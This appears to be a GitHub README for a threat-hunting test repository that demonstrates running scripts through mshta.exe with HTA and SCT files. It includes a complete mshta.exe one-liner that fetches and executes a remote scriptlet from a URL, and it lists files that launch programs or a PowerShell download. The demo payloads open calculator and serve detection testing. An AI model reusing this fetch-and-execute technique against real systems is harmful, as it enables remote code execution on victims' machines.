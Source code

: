 # TestThreatHunting
Using mshta.exe to preform scripts inline or from a URL

Test the following:
- mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/0xMo/TestThreatHunting/main/SCT%20files/PS1.sct')).Exec();close();
  - The will run a script from a URL to run calculator.
- Save the content of the file "**MaliciousHTA.hta**" & "**m.hta**" locally and double click it to run a calculator.
  - Both contains VBScript but different code written to run a program.
- Save the content of the file "**JS_URL**" and double click it to run a acript from a URL tthat will run a calculator.

# Files
<h3>What is SCT file extension</h3>

Component Object Model (COM) is a software component of windows as they store the scripts of software products installed on the user machine. This script includes (VBScript, JavaScript, or JScript, etc.), this unmanaged codes are stored in .SCT format.

<h3>What is HTA file extension</h3>

HTML Application (HTA) files have the file extension hta.HTA's are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser.

<h3>List of files</h3>

- MaliciousHTA.hta:
  - This files contains a HTML code with VBScript saved in HTA file that will run a calculator.
- JS_URL.hta:
  - contains an HTML code with JavaScript that will run a script from a URL.
- m.hta:
  - This files contains a HTML code with VBScript saved in HTA file that will run a calculator.
- test1.hta:
  - An HTML code conatins VBScript save in HTA file that will run a calculator sing the Wscript.Shell.
- test2.hta:
  - An HTML code conatins VBScript save in HTA file that will run a PowerShell command to download a text file.

- Hello.sct:
  - This files contains a HTML code saved in SCT file that will run a calculator.
- PS1.sct:
  - Contains a XML code with JScript that will run calculator.
- 
